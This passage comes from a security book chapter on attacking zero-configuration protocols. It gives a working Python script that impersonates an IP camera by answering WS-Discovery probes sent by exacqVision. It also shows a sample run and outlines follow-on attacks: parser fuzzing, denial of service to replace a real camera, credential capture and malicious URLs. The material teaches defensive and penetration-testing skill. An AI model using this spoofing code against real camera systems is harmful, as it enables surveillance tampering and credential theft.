focus on the second and third steps 23 for the attack we’ll perform in this section.    ### Faking Cameras on Your Network    We’ll first set up a test environment with IP camera management software on a virtual machine, and then use a real network camera to capture packets and analyze how it interacts with the software through WS-Discovery in practice. Then we’ll create a Python script that will imitate the camera with the goal of attacking the camera management software.    #### Setting up    We’ll demonstrate this attack using an earlier version (version 7.8) of *exacqVision*, a well-known tool for IP camera management. You could also use a similar free tool, such as Camlytics, iSpy, or any kind of camera management software that uses WS-Discovery. We’ll host the software on a virtual machine with the IP address 192.168.10.240\. The actual network camera we’ll be imitating has the IP address 192.168.10.245\. You can find the version of exacqVision we’re using at [`www.exacq.com/reseller/legacy/?file=Legacy/index.html/`](https://www.exacq.com/reseller/legacy/?file=Legacy/index.html/)*.*    Install the exacqVision server and client on a Windows 7 system hosted on VMware, and then start the exacqVision client. It should connect locally to the corresponding server; the client acts as a user interface to the server, which should have started as a background service on the system. Then we can start discovering network cameras. On the Configuration page, click **exacqVision Server**▶**Configure System**▶**Add IP Cameras**, and then click the **Rescan Network** button (Figure 6-14).      Figure 6-14: exacqVision client interface for discovering new network cameras using WS-Discovery      Doing so will send a WS-Discovery Probe (message 2 in Figure 6-14) to the multicast address 239.255.255.250 over UDP port 3702\.    #### Analyzing WS-Discovery Requests and Replies in Wireshark    As an attacker, how can we impersonate a camera on the network? It’s fairly easy to understand how typical WS-discovery requests and replies work by experimenting with an off-the shelf camera, such as Amcrest, as shown in this section. In Wireshark, start by enabling the “XML over UDP” dissector by clicking **Analyze** in the menu bar. Then click **Enabled Protocols**. Search for “udp” and select the **XML over UDP** box (Figure 6-15).      Figure 6-15: Selecting the XML over UDP dissector in Wireshark      Next, activate Wireshark on the virtual machine that runs the exacqVision server and capture the Probe Match reply (message 3 in 9) from the Amcrest camera to the WS-Discovery Probe. We can then right-click the packet and click **Follow** ▶**UDP stream**. We should see the entire SOAP/XML request. We’ll need this request value in the next section as we develop our script; we’ll paste it into the `orig_buf` variable in Listing 6-4.    Figure 6-16 shows the output of the WS-Discovery Probe in Wireshark. The exacqVision client outputs this information whenever it scans the network for new IP cameras.      Figure 6-16: The WS-Discovery Probe from exacqVision, output by Wireshark      The most important part of this probe is the `MessageID` UUID (highlighted), because this needs to be included in the Probe Match reply. (You can read more about this in the official WS-Discovery specification at */s:Envelope/s:Header/a:RelatesTo MUST be the value of the [message id] property [WS-Addressing] of the Probe*.)    Figure 6-17 shows the Probe Match reply from the real Amcrest IP camera.      Figure 6-17: WS-Discovery Probe Match reply from an Amcrest IP camera on the network. Notice that the `RelatesTo` UUID is the same as the `MessageID` UUID that exacqVision sent.      The `RelatesTo` field contains the same UUID as the one in the `MessageID` of the XML payload that the exacqVision client sent.    #### Emulating a Camera on the Network    Now we’ll write a Python script that emulates a real camera on the network with the intent of attacking the exacqVision software and taking the place of the real camera. We’ll use Amcrest’s Probe Match reply to exacqVision as the foundation for creating our attacking payload. We need to create a listener on the network that receives the WS-Discovery Probe from exacqVision, extracts the MessageID from it, and uses it to finalize our attacking payload as a WS Probe Match reply.    The first part of our code imports necessary Python modules and defines the variable that holds the original WS-Discovery Probe Match reply from Amcrest, as shown in Listing 6-4.    ``` #!/usr/bin/env python import socket import struct import sys import uuid  buf = "" orig_buf = '''<?xml version="1.0" encoding="utf-8" standalone="yes" ?><s:Envelope 1       >\ <s:Header><a:MessageID>urn:uuid:_MESSAGEID_</a:MessageID><a:To>urn:schemas-xmlsoap-org:ws:2005:04:discovery</a:To><a:Action>http://schemas.xmlsoap.org/ws/2005/04/discovery/ProbeMatches\ 2 </a:Action><a:RelatesTo>urn:uuid:_PROBEUUID_</a:RelatesTo></s:Header><s:Body><d:ProbeMatches><d:ProbeMatch><a:EndpointReference><a:Address>uuid:1b77a2db-c51d-44b8-bf2d-418760240ab6</a:Address></a:EndpointReference><d:Types>dn:NetworkVideoTransmitter 3 tds:Device</d:Types><d:Scopes>onvif://www.onvif.org/location/country/china \   onvif://www.onvif.org/name/Amcrest \ 4  onvif://www.onvif.org/hardware/IP2M-841B \  onvif://www.onvif.org/Profile/Streaming \  onvif://www.onvif.org/type/Network_Video_Transmitter \  onvif://www.onvif.org/extension/unique_identifier</d:Scopes>\ <d:XAddrs>http://192.168.10.10/onvif/device_service</d:XAddrs><d:MetadataVersion>1</d:MetadataVersion></d:ProbeMatch></d:ProbeMatches></s:Body></s:Envelope>''' ```    Listing 6-4: Module imports and the definition of the original WS-Discovery Probe Match reply from the Amcrest camera    We start with the standard Python shebang line to make sure the script can run from the command line without specifying the full path of the Python interpreter, as well as the necessary module imports. Then we create the `orig_buf` variable 1, which holds the original WS-Discovery reply from Amcrest as a string. Recall from the previous section that we pasted the XML request into the variable after capturing the message in Wireshark. We create a placeholder `_MESSAGEID_`2. We’ll replace this with a new unique UUID that we’ll generate every time we receive a packet. Similarly, the `_PROBEUUID_`3will contain the UUID as extracted from the WS-Discovery Probe at runtime. We have to extract it every time we receive a new WS-Discovery Probe from exacqVision. The `name` portion 4 of the XML payload is a good place to fuzz with malformed input, because we saw that the `Amcrest` name appears in the client’s listing of cameras and will thus have to first be parsed by the software internally.    The next part of the code, in Listing 6-5, sets up the network sockets. Place it immediately after the code in Listing 6-3.    ``` sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM, socket.IPPROTO_UDP) sock.setsockopt(socket.SOL_SOCKET, 1socket.SO_REUSEADDR, 1) sock.bind(('239.255.255.250', 3702)) mreq = struct.pack("=4sl", socket.inet_aton(2"239.255.255.250"), socket.INADDR_ANY) sock.setsockopt(socket.IPPROTO_IP, socket.IP_ADD_MEMBERSHIP, mreq) ```    Listing 6-5: Setting up the network sockets    We create a UDP socket and set the `SO_REUSEADDR` socket option 1 that lets the socket bind to the same port whenever we restart the script. Then we bind to the multicast address 239.255.255.250 on port 3702, because these are the standard multicast address and default port used in WS-Discovery. We also have to tell the kernel that we’re interested in receiving network traffic directed to 239.255.255.250 by joining that multicast group address 2.    Listing 6-6 shows the final part of our code, which includes the main loop.    ```  while True:     print("Waiting for WS-Discovery message...\n", file=sys.stderr)     data, addr = sock.recvfrom(1024) 1     if data:       server_addr = addr[0] 2       server_port = addr[1]       print('Received from: %s:%s' % (server_addr, server_port), file=sys.stderr)       print('%s' % (data), file=sys.stderr)       print("\n", file=sys.stderr)        # do not parse any further if this is not a WS-Discovery Probe       if "Probe" not in data: 3         continue        # first find the MessageID tag       m = data.find("MessageID") 4       # from that point in the buffer, continue searching for "uuid" now       u = data[m:-1].find("uuid")       num = m + u + len("uuid:")       # now get where the closing of the tag is       end = data[num:-1].find("<")       # extract the uuid number from MessageID       orig_uuid = data[num:num + end]       print('Extracted MessageID UUID %s' % (orig_uuid), file=sys.stderr)        # replace the _PROBEUUID_ in buffer with the extracted one       buf = orig_buf       buf = buf.replace("_PROBEUUID_", orig_uuid) 5       # create a new random UUID for every packet       buf = buf.replace("_MESSAGEID_", str(uuid.uuid4())) 6        print("Sending WS reply to %s:%s\n" % (server_addr, server_port), file=sys.stderr)        udp_socket = socket.socket(socket.AF_INET, socket.SOCK_DGRAM) 7       udp_socket.sendto(buf, (server_addr, server_port)) ```    Listing 6-6: The main loop, which receives a WS-Discovery Probe message, extracts the `MessageID`, and sends the attacking payload    The script enters an infinite loop in which it listens for WS-Discovery Probe messages 1 until we stop it (CTRL-C will exit the loop on Linux). If we receive a packet that contains data, we get the sender’s IP address and port 2 and save them in the variables `server_addr` and `server_port`, respectively. We then check whether the string `"Probe"`3 is included inside the received packet; if it is, we assume this packet is a WS-Discovery Probe. Otherwise, we don’t do anything else with the packet.    Next, we try to find and extract the UUID from the `MessageID` XML tag without using any part of the XML library (because this would create unnecessary overhead and complicate this simple operation), relying only on basic string manipulation 4. We replace the `_PROBEUUID_` placeholder from Listing 6-3 with the extracted UUID 5 and create a new random UUID to replace the `_MESSAGE_ID`placeholder 6. Then we send the UDP packet back to the sender 7.    Here is an example run of the script against the exacqVision software:    ``` root@kali:~/zeroconf/ws-discovery# python3 exacq-complete.py  Waiting for WS-Discovery message... Received from: 192.168.10.169:54374 <?xml version="1.1" encoding="utf-8"?><Envelope  ><Header><wsa:MessageID >urn:uuid:2ed72754-2c2f-4d10-8f50-79d67140d268</wsa:MessageID><wsa:To >urn:schemas-xmlsoap-org:ws:2005:04:discovery</wsa:To><wsa:Action >http://schemas.xmlsoap.org/ws/2005/04/discovery/Probe</wsa:Action></Header><Body><Probe xmlns:xsi=http://www.w3.org/2001/XMLSchema-instance xmlns:xsd=http://www.w3.org/2001/XMLSchema ><Types>dn:NetworkVideoTransmitter</Types><Scopes /></Probe></Body></Envelope> Extracted MessageID UUID 2ed72754-2c2f-4d10-8f50-79d67140d268 Sending WS reply to 192.168.10.169:54374 Waiting for WS-Discovery message... ```    Notice that every time you run the script, the MessageID UUID will be different. We leave it as an exercise for you to print the attacking payload and verify that same UUID appears in the `RelatesTo` field inside it.    In the exacqClient interface, our fake camera appears in the list of devices, as shown in Figure 6-18.      Figure 6-18: Our fake camera appears on the exacqClient list of IP cameras.      In the next section, we’ll explore what you could accomplish once you’ve been registered as a camera.    ### Crafting WS-Discovery Attacks    What types of attacks can you conduct by abusing this simple discovery mechanism? First, you can attack the video management software through this vector, because XML parsers are notorious for bugs that lead to memory corruption vulnerabilities. Even if the server doesn’t have any other exposed listening port, you could feed it malformed input through WS-Discovery.    A second attack would have two steps. First, cause a denial of service on a real IP camera so it loses connection to the video server. Second, send WS-Discovery information that makes your fake camera look like the legitimate, disconnected one. In that case, you might be able to fool the server’s operator into adding the fake camera to the list of cameras that the server manages. Once added, you can feed the server with artificial video input.    In fact, in some cases you could carry out the previous attack without even causing a denial of service in the real IP camera. You’d just have to send the WS-Discovery Probe Match response to the video server before the real camera sends it. In that case, and assuming the information is identical or similar enough (replicating the Name, Type, and Model fields from the real camera is enough most times), the real camera won’t even appear in the management software if you’ve successfully taken its place.    Third, if the video software uses an insecure authentication to the IP camera (for example, HTTP basic authentication), it’s possible to capture the credentials. An operator who adds your fake camera will type in the same username and password as the original one. In that case, you might be able to capture the credentials as the server attempts to authenticate against what it assumes is the real one. Because password reuse is a common problem, it’s likely that other cameras on the network use the same password, especially if they’re of the same model or vendor.    A fourth attack could be to include malicious URLs in the WS-Discovery Match Probe’s fields. In some cases, the Match Probe is displayed to the user, and the operator might be tempted to visit the links.    Additionally, the WS-Discovery standard includes a provision for “Discovery Proxies.” These are essentially web servers that you could leverage to operate WS-Discovery remotely, even across the internet. This means that the attacks described here could potentially take place without the adversary being positioned on the same local network.    ## Conclusion    In this chapter, we analyzed UPnP, WS-Discovery, and mDNS and DNS-SD, all of which are common zero-configuration network protocols in IoT ecosystems. We described how to attack an insecure UPnP server on OpenWrt to punch holes in the firewall, and then discussed how to exploit UPnP over WAN interfaces. Next, we analyzed how mDNS and DNS-SD work and how you can abuse them, and we built an mDNS poisoner in Python. Then we inspected WS-Discovery and how to exploit it to conduct a variety of attacks on IP camera management servers. Almost all of these attacks rely on the inherent trust that these protocols put on participants in the local network, favoring automation over security.````
